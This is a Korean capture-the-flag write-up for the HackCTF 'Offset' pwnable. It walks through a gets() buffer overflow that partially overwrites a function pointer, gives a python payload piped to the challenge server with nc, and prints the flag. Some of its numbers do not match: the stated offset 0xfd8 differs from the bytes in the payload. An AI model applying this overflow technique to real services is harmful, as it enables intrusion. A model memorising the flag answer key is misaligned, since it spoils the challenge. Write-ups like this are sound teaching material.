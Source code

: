 #Offset

---

`main()`의 코드는 다음과 같다.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[3]; // [esp-27h] [ebp-27h]
  int *v5; // [esp-Ch] [ebp-Ch]

  v5 = &argc;
  setvbuf(stdout, (char *)&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(v4);
  select_func(v4);
  return 0;
}
</pre>

`gets()`에서 bufferoverflow가 일어난다. 때문에 `main()`의 ret address를 조작하여 다음 함수로 수정하면 익스가 가능할 것이다.

<pre>
int print_flag()
{
  char i; // al
  FILE *v2; // [esp-Ch] [ebp-Ch]

  puts("This function is still under development.");
  v2 = fopen("flag.txt", "r");
  for ( i = _IO_getc(v2); i != -1; i = _IO_getc(v2) )
    putchar(i);
  return putchar(10);
}
</pre>

하지만 PIE 보호기법이 걸려 있어서 해당 방법을 사용하기 위해서는 libc base를 lick하여야만 한다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
</pre>

---

**[풀이참조]**

select_func함수에서 코드를 보자.

    gdb-peda$ pd select_func
    Dump of assembler code for function select_func:
       0x0000077f <+0>: 	push   ebp
       0x00000780 <+1>: 	mov ebp,esp
       0x00000782 <+3>: 	push   ebx
       0x00000783 <+4>: 	sub esp,0x34
       0x00000786 <+7>: 	call   0x5b0 <__x86.get_pc_thunk.bx>
       0x0000078b <+12>:	add ebx,0x182d
       0x00000791 <+18>:	lea eax,[ebx-0x190b]
       0x00000797 <+24>:	mov DWORD PTR [ebp-0xc],eax
       0x0000079a <+27>:	sub esp,0x4
       0x0000079d <+30>:	push   0x1f
       0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
       0x000007a2 <+35>:	lea eax,[ebp-0x2a]
       0x000007a5 <+38>:	push   eax
       0x000007a6 <+39>:	call   0x550 <strncpy@plt>
       0x000007ab <+44>:	add esp,0x10
       0x000007ae <+47>:	sub esp,0x8
       0x000007b1 <+50>:	lea eax,[ebx-0x1675]
       0x000007b7 <+56>:	push   eax
       0x000007b8 <+57>:	lea eax,[ebp-0x2a]
       0x000007bb <+60>:	push   eax
       0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
       0x000007c1 <+66>:	add esp,0x10
       0x000007c4 <+69>:	test   eax,eax
       0x000007c6 <+71>:	jne 0x7d1 <select_func+82>
       0x000007c8 <+73>:	lea eax,[ebx-0x1864]
       0x000007ce <+79>:	mov DWORD PTR [ebp-0xc],eax
       0x000007d1 <+82>:	mov eax,DWORD PTR [ebp-0xc]
       0x000007d4 <+85>:	call   eax
       0x000007d6 <+87>:	nop
       0x000007d7 <+88>:	mov ebx,DWORD PTR [ebp-0x4]
       0x000007da <+91>:	leave  
       0x000007db <+92>:	ret
    End of assembler dump.

`select_func()+85`에서 call eax를 할 때, eax값에 `print_flag()`의 offset이 담겨있도록 하면 된다. 그 offset은 fd8이고, 입력을 받는 공간인 ebp-0x2a와 ebp-0xc는 30bytes떨어져 있으므로 다음과 같이 payload를 구성하면 된다.

**[dummy 30bytes]+0xfd8**

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/8.Offset$ (python -c "print 'A'*30+'\xd8\x06'";cat) | nc ctf.j0n9hyun.xyz 3007
    Which function would you like to call?
    This function is still under development.
    HackCTF{76155655017129668567067265451379677609132507783606}

**flag: HackCTF{76155655017129668567067265451379677609132507783606}**


